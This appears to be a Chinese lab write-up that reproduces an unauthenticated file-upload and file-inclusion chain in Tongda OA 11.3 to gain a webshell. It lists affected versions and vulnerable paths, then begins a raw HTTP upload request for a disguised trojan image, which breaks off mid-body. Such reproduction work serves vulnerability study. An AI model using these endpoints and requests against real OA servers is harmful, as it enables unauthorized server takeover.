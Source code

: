 

# 通达OA 11.3

## 通达OA前台任意文件上传漏洞+文件包含漏洞导致getshell

### 漏洞环境

靶机（Windows server 2008 R2）IP：192.168.163.146:8080

通达OA：V 11.3版本



### 漏洞影响版本

通达OA V11版 <= 11.3 20200103
通达OA 2017版 <= 10.19 20190522
通达OA 2016版 <= 9.13 20170710
通达OA 2015版 <= 8.15 20160722
通达OA 2013增强版 <= 7.25 20141211
通达OA 2013版 <= 6.20 20141017

**备注：**

无需登录，前台即可实现漏洞利用

> 2013版：
>
> 文件上传漏洞路径：/ispirit/im/upload.php
>
> 文件包含漏洞路径：/ispirit/interface/gateway.php
>
> 
>
> 2017版：
>
> 文件上传漏洞路径：/ispirit/im/upload.php
>
> 文件包含漏洞路径：/mac/gateway.php



### 漏洞复现

#### 图片马上传

前台任意文件上传漏洞：无需登录，抓取任意数据包，修改数据包进行重放，上传后缀为jpg的木马文件

```
POST /ispirit/im/upload.php HTTP/1.1
Host: 192.168.163.146:8080
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
Connection: close
Content-Length: 662

------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="UPLOAD_MODE"

2
------WebKitFormBoundarypyfBh1YB4pV8McGB
```